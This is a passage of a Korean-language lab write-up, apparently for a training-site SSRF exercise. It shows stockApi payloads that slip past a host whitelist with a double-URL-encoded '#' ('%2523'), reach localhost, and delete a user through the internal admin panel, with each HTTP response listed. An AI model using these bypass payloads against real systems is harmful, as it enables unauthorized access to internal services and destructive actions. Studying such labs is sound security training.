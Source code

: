6. url 인코딩 
```
stockApi=http://username%23@stock.weliketoshop.net/

->

HTTP/2 400 Bad Request

"External stock check host must be stock.weliketoshop.net"
```

7. 2중 url 인코딩 
	- 해당 url의 화이트리스트를 통과 함.
```
stockApi=http://username%2523@stock.weliketoshop.net/

->

HTTP/2 500 Internal Server Error

Could not connect to external stock check service
```

8. localhost 접근  , 관리자 패널 접근 성공 
```
stockApi=http://localhost%2523@stock.weliketoshop.net/

->

HTTP/2 200 OK
```

9. 관리자 패널 에서 admin 페이지 url 및 삭제 

```
stockApi=http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos

->

HTTP/2 302 Found
```



